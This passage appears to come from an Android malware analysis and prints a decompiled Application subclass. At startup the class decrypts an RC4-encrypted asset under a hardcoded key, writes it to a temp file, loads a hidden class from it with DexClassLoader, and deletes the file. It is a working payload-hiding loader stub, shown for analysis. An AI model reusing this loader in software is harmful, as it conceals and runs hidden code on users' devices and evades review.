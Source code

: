 This is the subclass that extends `Application`.
```java
// NOTE: All encrypted strings have been decrypted
public class App extends Application {
    public static Class StubClass;

    private File a() {
        try {
            File file0 = File.createTempFile("temp", null, this.getCacheDir());
            InputStream inputStream0 = this.getAssets().open("sys");
            SecretKeySpec secretKeySpec0 = new SecretKeySpec("what_is_this_file".getBytes(StandardCharsets.UTF_8), "RC4");
            Cipher cipher0 = Cipher.getInstance("RC4");
            cipher0.init(2, secretKeySpec0);
            CipherInputStream cipherInputStream0 = new CipherInputStream(inputStream0, cipher0);
            FileOutputStream fileOutputStream0 = new FileOutputStream(file0);
            byte[] arr_b = new byte[0x400];
            while(true) {
                int v = cipherInputStream0.read(arr_b);
                if(v == -1) {
                    break;
                }

                fileOutputStream0.write(arr_b, 0, v);
            }

            cipherInputStream0.close();
            fileOutputStream0.close();
            file0.setReadOnly();
            return file0;
        }
        catch(IOException | NoSuchAlgorithmException | NoSuchPaddingException | InvalidKeyException unused_ex) {
            return null;
        }
    }

    @Override  // android.content.ContextWrapper
    protected void attachBaseContext(Context context0) {
        super.attachBaseContext(context0);
        this.b();
    }

    private void b() {
        File file0 = this.a();
        try {
            App.StubClass = new DexClassLoader(file0.getAbsolutePath(), this.getFilesDir().getAbsolutePath(), null, this.getClassLoader()).loadClass("a.a.b");
            file0.delete();
            return;
        }
        catch(Exception exception0) {
            throw new RuntimeException(exception0);
        }
    }
}
```
